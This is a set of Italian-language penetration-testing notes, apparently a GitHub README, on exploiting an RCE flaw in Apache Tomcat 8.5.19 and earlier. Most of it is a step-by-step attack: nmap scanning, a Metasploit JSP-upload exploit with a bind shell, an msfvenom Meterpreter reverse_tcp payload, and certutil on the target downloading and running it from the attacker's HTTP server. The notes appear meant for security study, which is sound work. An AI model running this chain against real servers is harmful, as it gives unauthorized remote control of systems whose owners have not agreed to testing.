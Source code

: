 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
# Apache Tomcat
**Apache Tomcat**, noto anche come **Tomcat server**, è un popolare servlet Java Web server gratuito e open source.  
È comunemente utilizzato per creare e ospitare siti web dinamici e applicazioni web basate su **Java**.

Utilizza il protocollo `HTTP` per facilitare la comunicazione tra client e server, e generalmente è in esecuzione sulla **porta 8080**, a differenza di server come Apache HTTP Server o NGINX che operano tipicamente sulle porte `80` (HTTP) e `443` (HTTPS).

---

## Differenza tra Apache e Apache Tomcat

- **Apache HTTP Server** è un web server utilizzato per ospitare **siti web statici e dinamici**, tipicamente sviluppati in linguaggi come **PHP o HTML**.
- **Apache Tomcat**, invece, è specificamente pensato per **ospitare applicazioni web basate su Java**, come servlet e JSP (Java Server Pages).

---

## Vulnerabilità di Apache Tomcat

Le versioni di **Apache Tomcat v8.5.19** e precedenti sono vulnerabili all’**esecuzione remota di codice (RCE)**.  
Un attaccante può sfruttare questa vulnerabilità per **caricare ed eseguire un payload JSP**, ottenendo così **accesso remoto** al server target.

---

## Scanning e Enumeration

Esegui una scansione con `nmap` per individuare se Apache Tomcat è in esecuzione:

```bash
nmap -p 8080 -sV <IP>
```

Se sulla porta `8080` viene rilevato Apache Tomcat, verifica manualmente con il browser se è attivo un sito web o una web app accedendo all’indirizzo:

```
http://<IP>:8080
```

---

## Exploitation

Una volta confermata la presenza del servizio vulnerabile, è possibile utilizzare il modulo Metasploit:

```bash
use exploit/multi/http/tomcat_jsp_upload_bypass
```

Imposta il payload:

```bash
set payload java/jsp_shell_bind_tcp
```

Definisci la shell da usare in base al sistema operativo:

```bash
set SHELL cmd   # se il target è Windows
set SHELL bash  # se il target è Linux
```

> Questo exploit può richiedere più tentativi prima di avere successo. Se tutto va a buon fine, otterrai una shell sul sistema target.

---

## Migrazione a Meterpreter

Poiché non è possibile effettuare un upgrade di questa shell, è possibile risolvere questo problema generando un payload `Meterpreter` con **Msfvenom**:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > meterpreter.exe
```
Successivamente apriamo un listener in Metasploit:
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
run
```
Nel frattempo, avvia un server HTTP per fornire il file al target:
```bash
sudo python3 -m http.server 80
```

---

## Caricamento del Payload sul Target
Accedi alla shell del target (ottenuta tramite lo JSP shell), quindi usa la utility `certutil` per scaricare il file:
```bash
certutil -urlcache -f http://<IP_Kali>/meterpreter.exe meterpreter.exe
```
Una volta scaricato con successo il payload, eseguilo:
```bash
meterpreter.exe
```
Il listener di Metasploit riceverà la connessione e aprirà una sessione `Meterpreter`, che può essere utilizzata per ulteriori operazioni di post-exploitation.

## Identificazione del Servizio
Il primo passo é quello di verificare che servizio é in esecuzione sulla macchina target.

---
